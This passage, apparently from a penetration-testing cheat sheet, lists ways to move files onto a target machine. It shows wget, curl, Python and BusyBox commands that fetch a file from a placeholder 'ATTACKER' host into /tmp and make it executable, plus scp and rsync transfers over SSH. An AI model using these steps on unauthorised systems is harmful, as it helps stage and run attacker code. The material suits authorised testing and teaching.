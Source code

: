 Target (pull with wget or curl):
```bash
cd /tmp
# wget (quiet, write to specific path)
wget -qO /tmp/FILE http://ATTACKER:8000/FILE

# curl (fail-silent but show errors; save to path)
curl -fsSLo /tmp/FILE http://ATTACKER:8000/FILE

# If HTTPS with self-signed cert:
curl -kfsSLo /tmp/FILE https://ATTACKER:443/FILE

chmod +x /tmp/FILE
sha256sum /tmp/FILE  # optional integrity check
```

Fallback if wget/curl missing but Python exists:
```bash
python3 - <<'PY'
import urllib.request
urllib.request.urlretrieve("http://ATTACKER:8000/FILE", "/tmp/FILE")
PY
chmod +x /tmp/FILE
```

BusyBox fallback:
```bash
busybox wget -O /tmp/FILE http://ATTACKER:8000/FILE
chmod +x /tmp/FILE
```

### B) SCP/SFTP/rsync over SSH
If you have SSH access to the target.

Attacker (push with scp):
```bash
# Key-based (recommended) or password-based
scp -P 22 FILE USER@TARGET:/tmp/

# If non-standard SSH port and key
scp -i id_rsa -P 2222 FILE USER@TARGET:/tmp/
```

Target (pull from attacker over SSH — ensure SSH server running on attacker):
```bash
# On attacker: start SSH server if needed
sudo systemctl enable --now ssh

# On target: pull file
scp -P 22 USER@ATTACKER:/path/to/FILE /tmp/FILE
```

rsync (resumable, efficient):
```bash
rsync -avP -e 'ssh -p 22' FILE USER@TARGET:/tmp/
```
